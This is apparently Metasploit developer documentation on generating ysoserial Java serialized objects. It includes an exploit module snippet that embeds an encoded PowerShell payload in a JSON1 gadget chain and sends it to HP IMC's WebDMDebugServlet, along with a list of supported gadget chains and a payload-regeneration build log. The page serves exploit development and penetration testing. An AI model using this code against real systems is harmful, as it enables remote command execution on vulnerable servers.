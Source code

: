 ```yaml
---
layout: post
title:  "Generating `ysoserial` Java serialized objects"
date:   "2019-11-27 13:31:17 -0600"
categories: article
---
```


Instead of embedding static Java serialized objects, Metasploit offers ysoserial-generated binaries with built-in randomization.  The benefits of using the Metasploit library include quicker module development, easier-to-read code, and future-proof Java serialized objects.

To use the ysoserial libraries, let's look at an example from the [`hp_imc_java_deserialization`](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/http/hp_imc_java_deserialize.rb) module:

### Example code

In this example, the module calls `cmd_psh_payload` to generate a PowerShell payload, then uses the `ysoserial` library to generate a `JSON1`-based serialized object, before sending it through an HTTP POST request:

```
1   def exploit
2     cmd = cmd_psh_payload(payload.encoded, payload_instance.arch.first, {remove_comspec: true, encode_final_payload: true})
3     data = ::Msf::Util::JavaDeserialization.ysoserial_payload("JSON1",cmd)
4
5     print_status "Sending serialized Java object (#{data.length} bytes)..."
6     res = send_request_cgi({
7       'method'   => 'POST',
8       'uri'      => normalize_uri(target_uri.path, 'topo', 'WebDMDebugServlet'),
9       'data'     => data
10    })
11  end
```

In line 3, the module uses the `ysoserial_payload` function, passing the name of the template and the command to be embedded within the template.  The function returns a Java serialized object, which can then be passed to the vulnerable application.

### Calling `ysoserial_payload`

The function takes two parameters, a template name and a command:
 
 - The name parameter must be one of the support payloads stored in the `ysoserial` cache.  As of this writing, the list includes: `BeanShelll1`, `Clogure`, `CommonBeanutils1`, `CommonsCollections2`, `CommonsCollections3`, `CommonsCollections4`, `CommonsCollections5`, `CommonsCollections6`, `Groovy1`, `Hibernate1`, `JBossInterceptors1`, `JRMPClient`, `JSON1`, `JavassistWeld1`, `Jdk7u21`, `MozillaRhino1`, `Myfaces1`, `ROME`, `Spring1`, `Spring2`, and `Vaadin1`.  While `ysoserial` includes 8 other templates that are not listed above, these 8 payloads are unsupported by the library due to the need for complex inputs.  Should there be use cases for those 8 templates, please consider opening an issue and submitting a pull request to add support.
 
 - The command parameter will be executed by the remote system.  The parameter is OS-agnostic, meaning that the module must determine the OS and architecture, if necessary, before generating a payload.

### Regenerating the ysoserial_payload JSON file (MAINTAINERS ONLY)

**Neither module developers nor users need to concern themselves with the following.**

<details>
<summary>Click to expand</summary>

On occasion, Metasploit maintainers may want to re-run the script generation to incorporate new Java serialized objects from the ysoserial tool.

To avoid invoking Java (and all its dependencies) at runtime, the serialized objects are generated and cached within a JSON file.  The JSON file can be refreshed using a standalone Ruby script, which comes prepackaged with a Docker image that handles downloading `ysoserial` and necessary dependencies.  The script, `Dockerimage` and a high-level `runme.sh` script is stored within `tools/payloads/ysoserial`.  An example run looks like:

```
$ cd ~/git/r7/metasploit-framework/tools/payloads/ysoserial
$ ./runme.sh 
Sending build context to Docker daemon  101.8MB
Step 1/8 : FROM ubuntu
 ---> cd6d8154f1e1
Step 2/8 : RUN apt update && apt -y upgrade
 ---> Using cache
 ---> ba7e5691ed5a
Step 3/8 : RUN apt install -y wget openjdk-8-jre-headless ruby-dev make gcc
 ---> Using cache
 ---> d38488663627
Step 4/8 : RUN wget -q https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial-original.jar
 ---> Using cache
 ---> 284ff722464b
Step 5/8 : RUN wget -q https://github.com/pimps/ysoserial-modified/raw/master/target/ysoserial-modified.jar
 ---> Using cache
 ---> 334c1ccb6fab
Step 6/8 : RUN gem install --silent diff-lcs json pry
 ---> Using cache
 ---> 9d452be9d01f
Step 7/8 : COPY find_ysoserial_offsets.rb /
 ---> 61b6f339590c
Step 8/8 : CMD ruby /find_ysoserial_offsets.rb
 ---> Running in ba7b14646e56
Removing intermediate container ba7b14646e56
 ---> f4ca5ecb6848
Successfully built f4ca5ecb6848
Successfully tagged ysoserial-payloads:latest
Generating payloads for BeanShell1...
Generating payloads for C3P0...
    Error while generating or serializing payload
    java.lang.IllegalArgumentException: Command format is: <base_url>:<classname>
    	at ysoserial.payloads.C3P0.getObject(C3P0.java:48)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'C3P0' and it will not be supported
Generating payloads for Clojure...
Generating payloads for CommonsBeanutils1...
Generating payloads for CommonsCollections1...
Generating payloads for CommonsCollections2...
Generating payloads for CommonsCollections3...
Generating payloads for CommonsCollections4...
Generating payloads for CommonsCollections5...
Generating payloads for CommonsCollections6...
Generating payloads for FileUpload1...
    Error while generating or serializing payload
    java.lang.IllegalArgumentException: Unsupported command  []
    	at ysoserial.payloads.FileUpload1.getObject(FileUpload1.java:71)
    	at ysoserial.payloads.FileUpload1.getObject(FileUpload1.java:40)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'FileUpload1' and it will not be supported
Generating payloads for Groovy1...
Generating payloads for Hibernate1...
Generating payloads for Hibernate2...
    Error while generating or serializing payload
    java.sql.SQLException: DataSource name cannot be empty string
    	at javax.sql.rowset.BaseRowSet.setDataSourceName(BaseRowSet.java:855)
    	at com.sun.rowset.JdbcRowSetImpl.setDataSourceName(JdbcRowSetImpl.java:4307)
    	at ysoserial.payloads.Hibernate2.getObject(Hibernate2.java:58)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'Hibernate2' and it will not be supported
Generating payloads for JBossInterceptors1...
Generating payloads for JRMPClient...
Generating payloads for JRMPListener...
    Error while generating or serializing payload
    java.lang.NumberFormatException: For input string: ""
    	at java.lang.NumberFormatException.forInputString(NumberFormatException.java:65)
    	at java.lang.Integer.parseInt(Integer.java:592)
    	at java.lang.Integer.parseInt(Integer.java:615)
    	at ysoserial.payloads.JRMPListener.getObject(JRMPListener.java:42)
    	at ysoserial.payloads.JRMPListener.getObject(JRMPListener.java:34)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'JRMPListener' and it will not be supported
Generating payloads for JSON1...
Generating payloads for JavassistWeld1...
Generating payloads for Jdk7u21...
Generating payloads for Jython1...
    Error while generating or serializing payload
    java.lang.IllegalArgumentException: Unsupported command  []
    	at ysoserial.payloads.Jython1.getObject(Jython1.java:52)
    	at ysoserial.payloads.Jython1.getObject(Jython1.java:42)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'Jython1' and it will not be supported
Generating payloads for MozillaRhino1...
Generating payloads for Myfaces1...
Generating payloads for Myfaces2...
    Error while generating or serializing payload
    java.lang.IllegalArgumentException: Command format is: <base_url>:<classname>
    	at ysoserial.payloads.Myfaces2.getObject(Myfaces2.java:47)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'Myfaces2' and it will not be supported
Generating payloads for ROME...
Generating payloads for Spring1...
Generating payloads for Spring2...
Generating payloads for URLDNS...
    Error while generating or serializing payload
    java.net.MalformedURLException: no protocol: 
    	at java.net.URL.<init>(URL.java:593)
    	at ysoserial.payloads.URLDNS.getObject(URLDNS.java:56)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'URLDNS' and it will not be supported
Generating payloads for Vaadin1...
Generating payloads for Wicket1...
    Error while generating or serializing payload
    java.lang.IllegalArgumentException: Bad command format.
    	at ysoserial.payloads.Wicket1.getObject(Wicket1.java:59)
    	at ysoserial.payloads.Wicket1.getObject(Wicket1.java:49)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'Wicket1' and it will not be supported
DONE!  Successfully generated 0 static payloads and 22 dynamic payloads.  Skipped 8 unsupported payloads.
```

At completion, the `data/ysoserial_payloads.json` file is overwritten and the 22 dynamic payloads are ready for use within the framework.  Afterward, the developer should follow the standard `git` procedures to `add` and `commit` the new JSON file  before generating a pull request and landing the updated JSON into the framework's `master` branch.
</details>